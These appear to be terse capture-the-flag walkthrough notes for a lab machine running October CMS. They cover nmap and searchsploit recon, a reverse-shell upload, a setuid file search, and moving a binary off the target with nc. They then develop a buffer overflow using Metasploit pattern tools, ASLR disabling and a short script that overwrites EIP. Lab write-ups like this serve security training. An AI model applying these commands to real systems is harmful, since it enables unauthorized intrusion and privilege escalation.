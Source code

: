 nmap -sV -sC -oA nmap &lt;host&gt;

searchsploit october

search vulnerabilities based on the version of the system

* is it outdated?
* what is the version that has vulnerabilities
* download 2 versions of the application \(cms\)

* find the files that have been updated

* compare their hashes

* try to access the README.md to see the changelogs

* remove the unnecessary files

exploit

* upload the reverse-shell script
* when accessed the shell

  * find / -perm -4000 2&gt;/dev/null \(search set-uid files\)
  * 

* get files from the remote server

  * nc -l -p 999 &gt; ovrflw \(local\)
  * nc -w 5 10.10.12.194  999 &lt; /usr/local/bin/ovrflw \(remote\)
  * check for md5

* python -m SimpleHTTPServer

* Run ubuntu with the same version of the target

  * wget 172.16.10.105:8000/ovrflw
  * mv ovrflw Desktop
  * chmod +x ovrflw
  * ``./ovrflw `python -c 'print "A"*200'` #this will trigger a segmentation fault because of buffer overflow``

* `cat ~/.gdbinit` \(this will check if you have `source ~/peda/peda.py`\)

* gdb ./ovrflw

* b main \(breakpoint on main\)

* r \(run\)

* ```r``python -c 'print "A"\*200'\`\`\` \(buffer overflow\)

* c \(continue\)

* you will see an error after `c`

* `python -c 'print "\x41"' (will print A)`

* checksec

* nc -lvnp 888 \(port set on the reverse shell script\)

* stty raw -echo

* nc -lvnp 888

* cd /usr/local/bin

* ldd ovrflw \|grep libc

Check if the ASLR is enabled in the HOST \(VM\)

* ldd ovrflw \|grep libc

Disable ASLR

* `echo 0 > /proc/sys/kernel/randomize(underscore)va_space #root`
* `ldd ovrflw |grep libc #check if the hex is not changing`

Identify where the buffer overflow occurs

* locate pattern\_

* `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -h #shows usage`

* `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200 #generate unique strings/ pattern that doesn't repeat`

* go to ubuntu

* gdb ./ovrflw

* r &lt;paste generated unique patterns/strings&gt;

* copy the mem address

* go back to kali box

* use pattern\_offset.rb

* pattern\_offset.rb -q &lt;mem address without 0x&gt;

* will output p \[\*\] Exact match at offset 112

  * this means at exactly 112 bytes, you can override EIP here

* go to ubuntu to write the buffer overflow script

**--- buf.py ---**

```
import struct

buf = "A" * 112
buf += struct.pack("<I",0xd3adc0d3)

print buf
```

* gdb ./ovrflw
* `r python buf.py (enclose python with backticks)`
* you will see the it crashed on 0xd3adc0d3 



